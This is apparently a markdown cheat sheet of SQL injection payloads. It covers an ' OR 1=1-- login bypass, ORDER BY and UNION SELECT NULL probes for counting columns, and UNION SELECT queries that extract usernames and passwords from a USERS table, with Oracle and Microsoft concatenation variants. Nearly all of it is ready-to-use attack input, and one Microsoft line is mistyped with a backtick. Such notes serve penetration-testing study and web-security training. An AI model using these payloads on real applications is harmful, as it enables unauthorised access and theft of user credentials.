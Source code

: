 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```


### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
